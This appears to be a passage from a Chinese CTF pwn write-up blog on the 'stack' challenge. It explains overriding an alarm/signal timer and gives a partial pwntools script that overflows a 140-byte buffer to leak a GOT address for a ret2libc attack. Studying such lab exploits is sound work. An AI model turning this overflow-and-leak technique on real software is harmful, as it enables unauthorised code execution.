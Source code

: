 <img src="/images/posts/pwnofmonth3/1552527318178.png" >


好了，问题解决了，是这个问题，题目自带一组引号：

<img src="/images/posts/pwnofmonth3/1552527470227.png" >

### catmq
参考：http://jiangjiawei.pw/blog/2018/07/28/2018-CISCN-final-conclusion/


### stack--跑马灯？
参考：
+ https://sunichi.github.io/2018/02/02/cyberearth-xctf-pwn-stack/
+ https://www.xctf.org.cn/library/details/cyberearth-writeup/?from=groupmessage&isappinstalled=0
程序会跑三次跑马灯，并在最后一次进入handle函数的死循环里面。然后main函数最后一个return函数到gee函数里面读入0x100字节有140字节的溢出。

signal：C 库函数 void (*signal(int sig, void (*func)(int)))(int) 设置一个函数来处理信号，即带有 sig 参数的信号处理程序。

如果解决跳入死循环的问题：
通过简单的实验可知，先前的signal和alarm可以被后来的signal和alarm所覆盖，因此首先通过溢出令alarm(2u)失效。
设置alarm(0)直接覆盖前面的alarm(2)这样就不会响了，然后也就不会去执行handle了。最后直接溢出就可以了

有关alarm和signal的学习参考：
+ https://zh.cppreference.com/w/cpp/utility/program/signal
+ http://man7.org/linux/man-pages/man7/signal.7.html
+ http://www.runoob.com/cprogramming/c-function-signal.html
+ http://man7.org/linux/man-pages/man2/alarm.2.html
+ https://blog.csdn.net/sambian/article/details/698718

下面是详细脚本：
```
from pwn import *
import time
# context.log_level=True
# r = remote("127.0.0.1",9999) 
r = process("./stack")# ,shell = True) #executes the binary 
 
#r.recvuntil("\n\n")
time.sleep(36.9) 
e = ELF("./stack")
writeplt = e.symbols['write']
writegot = e.got['write']
readplt = e.symbols['read']
readgot = e.got['read']
main = e.symbols['gee']


payload1 = "A" * 140 + p32(writeplt) + p32(main) + p32(1) + p32(readgot) + p32(4)
pause()
r.sendline(payload1) #feeds the exploit to the binary 
r.recvuntil('\n\n')
a=unpack(r.recv(4)) #gets the four bytes we leaked from the GOT 
print hex(a)
pause()
libc = ELF('./libc-2.23.so')
```